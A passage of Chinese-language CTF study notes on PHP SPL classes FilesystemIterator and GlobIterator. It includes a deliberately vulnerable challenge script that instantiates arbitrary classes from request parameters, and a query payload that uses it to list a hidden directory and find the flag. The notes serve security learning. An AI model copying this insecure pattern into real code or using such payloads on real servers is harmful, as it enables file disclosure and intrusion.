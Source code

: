 

### FilesystemIterator类

> 继承于`Directorylterator`类，用法基本相同
>
> 总的来说：它是 `DirectoryIterator` 的一个更高级的版本。

```php
$iterator = new FilesystemIterator('/path/to/directory');
foreach ($iterator as $fileinfo) {
    echo $fileinfo->getFilename() . "\n";
}
```

#### 例子

```php
<?php
highlight_file('index.php');
# 我把flag藏在一个secret文件夹里面了，所以要学会遍历啊~
error_reporting(0);
$J1ng = $_POST['J'];
$Hong = $_POST['H'];
$Keng = $_GET['K'];
$Wang = $_GET['W'];
$dir = new $Keng($Wang);
foreach($dir as $f) {
    echo($f . '<br>');
}
echo new $J1ng($Hong);
?>
```

做法

```
?K=FilesystemIterator&W=/secret/
```

<img src="https://gitee.com/bx33661/image/raw/master/path/image-20240921142909738.png" alt="image-20240921142909738" style="zoom:33%;" />



### GlobIterator类

> 概述： `GlobIterator` 是 PHP 的 SPL（标准 PHP 库）中的一个类，它继承自 `FilesystemIterator`。这个类使用 glob 模式来选择文件系统中的文件和目录

```php
$iterator = new GlobIterator('/path/to/directory/*.txt');
foreach ($iterator as $fileinfo) {
    echo $fileinfo->getFilename() . "\n";
}
```

#### 例子
